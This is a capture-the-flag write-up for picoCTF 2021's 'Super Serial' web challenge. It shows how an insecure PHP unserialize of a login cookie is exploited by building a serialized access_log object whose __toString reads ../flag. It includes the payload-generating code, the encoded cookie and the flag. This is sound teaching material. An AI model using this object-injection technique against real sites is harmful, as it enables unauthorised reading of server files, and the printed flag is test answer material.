

# Super Serial

## Information

- picoCTF 2021
- Web Exploitation
- 100 Points

## Description

Try to recover the flag stored on this website http://mercury.picoctf.net:8404/

## Hints

1. The flag is at ../flag

## Solution

The webpage we are trying to find the flag on is a sign in page.


We need to perform some recoinassaince by accessing the `robots.txt` file, which gives us the following.

```
User-agent: *
Disallow: /admin.phps
```

Going to `/admin.php` does not yield anything. However, we now know that `.phps` files do exist. We can go to `index.phps` which gives us the following PHP code and from there we can find `cookie.phps` and `authentication.phps`. Full PHP code for all three files can be found [here](/web-exploitation/super-serial/php/).

Analysing the code, we can see that a `permissions` object is created.

```php
$perm_res = new permissions($username, $password);
```

After logging in, `perm_res` is cached as a cookie byserialisaing it.

```php
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
```

Next time, when the user visits the website, the value is directly read from the cache.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

This is a problem because, we can edit the cookie to provide a different serialized object and the server would unserialize it for us when it catches an error.

We could instantiate an `access_log` object with `../flag` which sets `$this->log_file = "../flag"`.

```php
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}
?>
```

This object would then be feed into the server via cookies and the server will try to check whether the user is a guest or an admin:

```php
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
$g = $perm->is_guest();
$a = $perm->is_admin();
```

When checking if the user is an admin, this is where an exception will be thrown and caught by:

```php
catch(Error $e){
	die("Deserialization error. ".$perm);
}
```

The code prints an error message and appends the object to it, causing `access_log.__toString()` to be called.

```php
function __toString() {
	return $this->read_log();
}
```

Which will then call `read_log()`:

```php
function read_log() {
	return file_get_contents($this->log_file);
}
```

Which should give us the flag.

To perform this, we need to create a new cookie with the value being `../flag`. This has to be serialized, Base64 encoded and then URL encoded in that order.

To serialise `../flag`, we need to run this code:

```php
echo(urlencode(base64_encode(serialize((new access_log("../flag"))))));
```

Which outputs:

```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Create a new cookie and use this string as the value. Go to http://mercury.picoctf.net:8404/authentication.php and you should see a deserialization error message with the flag.



## Flag

picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_66832978}
